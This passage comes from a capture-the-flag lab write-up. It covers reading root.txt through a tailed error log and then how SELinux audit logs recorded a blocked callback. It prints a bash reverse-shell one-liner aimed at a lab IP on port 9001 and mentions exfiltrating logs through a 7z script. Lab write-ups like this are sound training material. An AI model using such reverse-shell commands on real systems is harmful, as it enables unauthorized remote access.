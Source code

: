 That will create the two files I need, and then show them and the date to show how long until the next minute.

When the minute rolls, back in the ldapuser shell, I get root.txt:

```

[ldapuser@ctf backup]$ tail -f error.log

WARNING: No more files
fd6d2e53...

tail: error.log: file truncated

```

## Beyond Root

### SELinux

There were some SELinux rules in place that made it more difficult to get a shell. Shoutout to Ippsec and jkr for helping me figure out the bits that I did on SELinux.

I can look in `/var/log/audit` and find the audit logs which show where SELinux blocked something. I can exfil these logs using the 7z script, since I have the flag now, I can calculate the password to the zip.

#### Callbacks

When I try to run:

```

bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'

```

I see:

```

type=AVC msg=audit(1563309265.374:709): avc:  denied  { name_connect } for  pid=2675 comm="bash" dest=9001 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:tor_port_t:s0 tclass=tcp_socket                                                    
type=SYSCALL msg=audit(1563309265.374:709): arch=c000003e syscall=42 success=no exit=-13 a0=3 a1=138df20 a2=10 a3=7fff9f4d5860 items=0 ppid=2674 pid=2675 auid=4294967295 uid=48 gid=48 euid=48 suid=48 fsuid=48 egid=48 sgid=48 fsgid=48 tty=(none) ses=4294967295 comm="bash" exe="/usr/bin/bash" subj=system_u:system_r:httpd_t:s0 key=(null)
type=SOCKADDR msg=audit(1563309265.374:709): saddr=020023290A0A0E080000000000000000
type=PROCTITLE msg=audit(1563309265.374:709): proctitle=62617368002D630062617368202D69203E26202F6465762F7463702F31302E31302E31342E382F3930303120303E2631 

```

It’s blocking this because of the port, as I can see in `object_r:tor_port_t:s0`. TCP 9001 is in fact a [tor port among other things](https://www.speedguide.net/port.php?port=9001). If I run:

